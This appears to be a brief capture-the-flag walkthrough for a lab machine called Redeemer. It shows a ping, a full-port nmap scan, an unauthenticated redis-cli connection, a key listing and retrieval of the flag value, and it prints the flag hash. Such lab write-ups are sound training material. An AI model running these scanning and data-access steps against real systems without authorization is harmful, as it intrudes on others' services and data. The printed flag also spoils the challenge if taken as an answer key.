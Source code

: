 ![Redeemer.jpg](/assets/redeemer.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.96.90
```



2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.96.90
```

**Output**
```bash
PORT     STATE SERVICE REASON
6379/tcp open  redis   syn-ack ttl 63
```


3. Connect with **redis-cli**
```bash
redis-cli -h 10.129.96.90 -p 6379
10.129.96.90:6379>
```


4. List all keys un bdd
```bash
10.129.96.90:6379> keys *
1) "stor"
2) "flag"
3) "numb"
4) "temp"
```


5. Get "flag"
```bash
10.129.96.90:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
```

**By: EsT**